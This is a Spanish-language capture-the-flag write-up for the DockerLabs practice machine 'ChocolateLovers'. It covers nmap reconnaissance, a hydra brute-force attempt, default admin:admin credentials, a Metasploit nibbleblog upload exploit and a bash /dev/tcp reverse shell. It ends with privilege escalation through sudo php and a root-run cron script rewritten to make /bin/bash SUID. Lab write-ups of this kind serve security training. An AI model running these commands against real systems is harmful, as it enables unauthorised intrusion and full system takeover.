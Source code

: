 # Máquina ChocolateLovers

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Echamos un vistazo a la web y vemos que es la página por defecto de apache. Aplicamos **fuzzing** pero no encontramos absolutamente nada.

Mirando el código de la página encontramos un comentario con un directorio **/nibbleblog**.

![Pasted image 20240508131640](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/d579f63d-7182-4917-8c89-a9986337945f)

Al acceder encontramos efectivamente una página que emplea esta tecnología.

![Pasted image 20240507224317](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/b6af0b9a-2ad1-4074-b2a1-662cef891586)

Vemos que hay una ruta a un panel de administración. Accedemos y encontramos un panel de login:

![Pasted image 20240507224342](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/b628c352-0beb-4b35-b3af-c151231121a2)

***

## Explotación

Probaremos a hacer **fuerza bruta** contra este panel de login. Podemos emplear la herramienta **hydra**. Vemos que data se tramita al hacer una prueba de login:

![Pasted image 20240507224909](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2141b791-afd6-410e-a3ce-80f25c25be4a)

Usaremos la Request para indicarle a **hydra** la petición y el mensaje de error para que sepa cuando no ha sido exitoso el login.

```shell
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt "http-post-form://172.17.0.2/nibbleblog/admin.php:username=^USER^&password=^PASS^:Invalid username or password"
```

![Pasted image 20240507225348](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/16faeef0-e71a-4e0e-9fbf-8f745c92965a)

Vemos que reporta un montón de falsos positivos y tras volver a la página vemos un mensaje de error. Esto corresponderá seguramente a alguna protección contra fuerza bruta.

![Pasted image 20240507225902](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/31c2a20c-c33d-4175-a852-4c94a899d864)

Finalmente, bastaba con probar a loguearte con las credenciales más típicas -> **admin:admin**

Logramos acceder al panel de administración del blog. En ajustes (settings), podemos ver la versión del **nibleblog**:

![Pasted image 20240507231204](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c9ecad54-520e-4015-a43c-df99f680b7e9)

Si buscamos con **searchsploit** hay un exploit específico para esa versión.

![Pasted image 20240507231234](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/8932e550-af8b-42f5-9c20-a00af2dec069)

```shell
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set PASSWORD admin
set USERNAME admin
set RHOSTS 172.17.0.2
set TARGETURI /nibbleblog/
exploit
```

Al ejecutar el exploit vemos que nos da error:

![Pasted image 20240507233147](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/fe48beed-cf37-40ab-aa88-6168dd7c5b54)

Revisando el código del script que estamos explotando, está abusando de un plugin llamado **My Image**. Vemos en la sección de plugins del panel que no está instalado. Lo instalamos.

![Pasted image 20240507233237](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ef3e6d5a-31af-4f0a-ac97-d54b348b8a76)

Con esto obtenemos una sesión de meterpreter exitosamente.

![Pasted image 20240507233314](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/59e5d847-d717-45d7-8807-c635cef702e0)

Estamos dentro !

Ponemos **shell** para tener una consola a la que estamos acostumbrados.

Nos ponemos en escucha y nos enviamos una reverse shell para trabajar de forma más cómoda:

![Pasted image 20240507233658](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a6002ce2-ce9a-44ce-b636-ff78a9ffcd91)

```shell
sudo nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/172.17.0.1/443 0>&1" 
```

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

***

## Escalada de privilegios

Hacemos **sudo -l** y vemos que podemos ejecutar **php** como el usuario **chocolate**:

```shell
sudo -l
-----------------------------------------------------------------
User www-data may run the following commands on 9098e8d027e9:
    (chocolate) NOPASSWD: /usr/bin/php
```

Abusamos de este:

```shell
CMD="/bin/bash"
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

Si listamos los procesos que están corriendo en el sistema. Podemos ver que **root** está ejecutando un script sospechoso:

```shell
ps -faux
----------------------------
root   1  0.0  0.0   2616  1712 ?   Ss   13:15   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
```

Si listamos sus permisos vemos que pertenece al usuario **chocolate**:

```shell
ls -l /opt/script.php
------------------------------
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php
```

Podremos cambiarlo a nuestro antojo para ejecutar algo como el usuario **root**:

```shell
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Y tras esperar un poco:

```shell
ls -l /bin/bash
----------------------------
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que la bash ya es **SUID** por lo que podemos escalar privilegios.

```shell
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema!
